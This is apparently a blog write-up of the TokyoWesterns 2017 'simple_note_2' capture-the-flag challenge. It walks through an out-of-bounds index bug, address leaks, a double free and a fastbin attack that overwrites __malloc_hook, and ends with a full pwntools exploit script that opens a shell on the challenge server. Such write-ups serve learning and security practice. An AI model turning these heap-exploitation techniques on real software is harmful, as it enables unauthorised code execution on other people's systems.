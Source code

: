 ```yaml
---
layout: post
comments: true
title: Note Version 2 - TokyoWesterns'17 (148pts)
---
```


Second part of the note challenge.

```
gef➤  checksec 
[+] checksec for '/home/sanat/tokyo-westerns'17/simple_note_2'
Canary                        : Yes →  value: 0x3eecb7f615243000
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Full
gef➤  

```

This time full RelRO.

There is OOB (Out of bounds error) in all functions that take input for index.

```
Input index of note.
-4
Content:� ��
+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=
1. Add a note.
2. Show a note.
3. Delete a note.
4. Exit.
+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=
Your choice:
```

So whatever index we pass, it dereferences it and then prints out its content. Sadly we can't leak libc like this since we would need a pointer to a libc function. But few bytes behind, we have a target which can easily leak the .text section of the binary.


```
gef➤  x/20xg 0x0000000100000000 + 0x202060 - 128
0x100201fe0:	0x00007ffff7a784d0	0x00007ffff7a47030
0x100201ff0:	0x0000000000000000	0x00007ffff7a472d0
0x100202000:	0x0000000000000000	0x0000000100202008 <-- Target
0x100202010:	0x0000000000000000	0x0000000000000000
0x100202020 <stdout>:	0x00007ffff7dd2620	0x0000000000000000
0x100202030 <stdin>:	0x00007ffff7dd18e0	0x0000000000000000
0x100202040 <stderr>:	0x00007ffff7dd2540	0x0000000000000000
0x100202050:	0x0000000000000000	0x0000000000000000
0x100202060:	0x0000000100203010	0x0000000000000000 <-- Start of our list array which holds pointers to heap.
0x100202070:	0x0000000000000000	0x0000000000000000

```

## Heap Leak

Our input string is not null terminated. So we can do a heap spray of fastbins and leak heap. ( We can also leak arena pointers but there is a much better way to do that).

```

gef➤  x/20xg 0x100203000
0x100203000:	0x0000000000000000	0x0000000000000021
0x100203010:	0x0000000000000000	0x0000000000000000
0x100203020:	0x0000000000000000	0x0000000000000021
0x100203030:	0x000000010020300a	0x0000000000000000 <-- our \x0a is not null terminated
0x100203040:	0x0000000000000000	0x0000000000020fc1

```

## Libc Leak

Now since we know .text address and heap base, we know the distance and hence can calculate the distance. Divide by 8 and we get index. So now we technically control out pointer. We can just set a pointer to got address as our heap data (when creating new note) and then pass in that index. Likewise we set a pointer to a note also and thus possess 2 pointers to 1 note --> double free --> fastbin attack --> straightforward malloc_hook attack.

## Malloc_hook Attack

There's a blog by [uafio](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html) where he describes how to create a fastbin near malloc_hook.

```
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260
gef➤  
0x7ffff7dd1af8:	0x0000000000000000
gef➤  
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92e20
gef➤  
0x7ffff7dd1b08 <__realloc_hook>:	0x00007ffff7a92a00
gef➤  
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000
```
We overwrite with magic gadget.

## Full exploit code.

```
#!/usr/bin/python
from pwn import *

elf = ELF("./libc.so.6")
p = remote("pwn2.chal.ctf.westerns.tokyo", 18554)
#p = process("./simple_note_2",env={"LD_PRELOAD":"./libc.so.6"})
raw_input()

def menu():
	p.recvuntil("choice:")

def add_note(size,content):
	menu()
	p.sendline("1")
	p.recvuntil("note.")
	p.sendline(str(size))
	p.recvuntil("note.")
	p.sendline(content)

def show_note(idx,n):
	menu()
	p.sendline("2")
	p.recvuntil("note.")
	p.sendline(str(idx))
	p.recvuntil("Content:")
	return p.recv(n)

def delete_note(idx):
	menu()
	p.sendline("3")
	p.recvuntil("note.")
	p.sendline(str(idx))

# Use index to leak. Then put index = m such that it points to heap !!
# Then freeing can cause double free.

lol = "A"*11
leak = show_note(-11,6)
print leak
print len(leak)
leak += "\x00"*2
leak = u64(leak)
text = leak - 0x202008
log.info("Text section: " + hex(text))

start = text + 0x202060

puts_got = text + 0x0000000000201f90

# Leak heap.
add_note(100,lol)
add_note(100,lol)
delete_note(1)
delete_note(0)
add_note(100,"")

leak = show_note(0,6)
leak += "\x00"*2
leak = u64(leak)
heap = leak - 0xa
log.info("Heap: " + hex(heap))

# set got address.
delete_note(0)
victim = heap + 0x80
buf = p64(puts_got)
buf += p64(victim)
add_note(100,buf)

# Now attack.
index = (heap - start)/8
index += 2

leak = show_note(index,6)
leak += "\x00"*2
leak = u64(leak)
libc = leak - elf.symbols['puts']
log.info("Libc: " + hex(libc))

# Double free.
delete_note(0)
index+=1
delete_note(index)

malloc_hook = libc + 0x3c4af5-8
buf = p64(malloc_hook)
add_note(100,buf)

lol = "X"*8
lol += p64(victim)
add_note(100,lol)
add_note(100,lol)

magic = libc + 0x4526a
magic = libc + 0xf0274

buf = "X"*19
buf += p64(magic)
add_note(100,buf)

# Trigger double free error.
print index
#p.interactive()
delete_note(index)
delete_note(0)

p.interactive()
```
